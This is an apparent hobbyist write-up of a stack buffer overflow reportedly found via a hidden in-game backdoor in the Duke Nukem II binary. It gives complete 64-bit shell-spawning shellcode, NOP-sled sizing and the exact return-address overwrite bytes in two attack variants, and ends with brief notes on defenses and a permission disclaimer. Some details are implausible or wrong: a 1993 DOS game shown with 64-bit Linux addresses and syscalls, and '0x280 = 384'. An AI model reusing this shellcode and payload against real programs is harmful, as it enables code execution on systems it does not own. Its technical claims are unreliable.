

##########################################
Duke Nukem II
##########################################

I decided to tear apart the Duke Nukem II binary recently, mostly for fun and to see if old games are as buggy as I remember. They are. Here’s a straight walk-through of how I found and exploited a buffer overflow to pop a shell, using both brute-force (sledgehammer) and precision (ballpeen hammer) attacks.

Finding and Understanding the Bug
=================================

Opened up the binary in Ghidra. By rummaging around, I found a secret function at offset ``0x002f52e2`` that only triggers if you hit “up” at certain computer terminals in-game. This backdoor eventually passes direct user input to another function at ``0x002f5774``, which does a ``memcpy`` from a buffer you control into a local buffer with a size of just 288 bytes. The best part? The copy size is passed in by the user too.

Offsets and buffer info:

- **Backdoor function:** FUN_002f52e2, offset ``0x002f52e2``
- **Vulnerable function:** FUN_002f5774, offset ``0x002f5774``
- **Destination buffer offset (in stack frame):** ``-0x188``
- **Source buffer offset:** ``-0x10``

Design flaw: The input parameter that sets the size of the copy is user-controlled, so it can go way past 288 bytes.

   *Showing how the backdoor links to the vulnerable routine.*

Sledgehammer Approach
=====================

The sledgehammer approach just blows past buffer boundaries and trashes the stack with a big chunk of data.

The Exploit
-----------

The buffer is 288 bytes, but the vulnerability lets us dump in much more. I sent 400 bytes:

- Shellcode to spawn a shell (shown below)
- Lots of NOPs (``\x90``)
- Filler bytes

**Shellcode used (63 bytes):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

Example sledgehammer buffer:

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [lots of NOPs to fill]
   (total 400 bytes)

.. image:: screenshot2.png
   :alt: Stack/Memory dump with the 400-byte overflow in place
   :align: center
   :height: 300px

   *After running this, the stack is totally blown out.*

The result: usually a crash, but sometimes enough random luck to trip a shell.

Ballpeen Hammer Approach (Precise Shell Execution)
===================================================

This method is more involved but reliable. It needs you to know exactly where to overwrite saved ``rbp`` and the return address so control lands exactly on your shellcode.

Step-by-Step
------------

1. **Debug setup**
   - Set up remote debugging with Eclipse
   - Launch ``gdbserver`` on port 2345
   - Trigger the in-game backdoor, then pause the program in the debugger

2. **Stack analysis**
   - First stack address (e.g. ``0x55555574933e``) is where backdoor is called
   - Second (e.g. ``0x5555557492a2``) is the wrapper calling the backdoor, which also calls the vulnerable function at ``0x555555749774``
   - Find call to ``memcpy``, breakpoint it
   - Step in, note:
     - ``rbp`` after stepping in: ``0x7fffffffc2f0``
     - ``rdi`` of buffer: ``0x7fffffffc170``
     - Copy size: ``0x7fffffffc2f0 - 0x7fffffffc170 = 0x280 = 384`` bytes

3. **Build the exploit buffer**
   - Shellcode (again, full, uncut):

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

   (that's 63 bytes)

   - Spacer/NOP sled:
     384 (overflow window) - 63 (shellcode) = 321 bytes.
     So, ``\x90`` repeated 321 times.

   - rbp and return address overwrite:

     After the NOP sled, append packed 8-byte little-endian values for:

      * rbp after memcpy: ``0x7fffffffc2f0``
      * return address (should point into shellcode): ``0x7fffffffc170``

   This is how the final payload is laid out:

::

   [shellcode][321 x \x90][\xf0\xc2\xff\xff\xff\x7f\x00\x00][\x70\xc1\xff\xff\xff\x7f\x00\x00]

   Both values padded to 8 bytes; bytes written in little-endian order.

**Full buffer assembly (all bytes, no snipping):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [321 x \x90]
   \xf0\xc2\xff\xff\xff\x7f\x00\x00
   \x70\xc1\xff\xff\xff\x7f\x00\x00

.. image:: screenshot3.png
   :alt: Buffer as seen in memory with NOP sled and shellcode
   :align: center
   :height: 300px

   *You can clearly see the shellcode, NOP sled, and overwritten addresses in the stack.*

Final Step
----------

Once this buffer is submitted at the in-game prompt (after hitting the debug breakpoint), the function returns and control hits your shellcode reliably. A shell pops up.

.. image:: screenshot4.png
   :alt: In-game prompt where the buffer is submitted
   :align: center
   :height: 300px

   *This is where you paste the crafted buffer after suspending in the debugger.*

.. image:: screenshot5.png
   :alt: Terminal with real shell from inside Duke Nukem II process
   :align: center
   :height: 300px

   *Confirmation: shell access achieved.*

Why This Wouldn’t Work With Defenses
====================================

- **ASLR:** Randomizes where things are in memory every run, making it much harder to guess where to jump with your overflow.
- **Stack Canaries:** Inserts a secret value before the return address. Overwriting it with an overflow causes the process to crash instead of running your code.
- **Non-executable stack:** Even if you land execution on the stack, your shellcode won’t run unless it’s in an executable region.

Summary
=======

- The bug: User-controlled copy size overflows a fixed-size local buffer in ``memcpy``.
- The brute-force (sledgehammer) attack proves the overflow is real.
- The targeted (ballpeen hammer) attack gets you reliable shell access.
- Old binaries make this stuff easy; security defenses would shut it down today.

If you want to get into real-world exploitation, debugging, and reverse engineering, work on old games or similar simple binaries. You’ll get a real feel for how overflows happen and how to actually exploit them.

All shellcode shown here is complete and used exactly as described.

*Only hack stuff you own or have permission to test on. This is for learning and curiosity, nothing else.*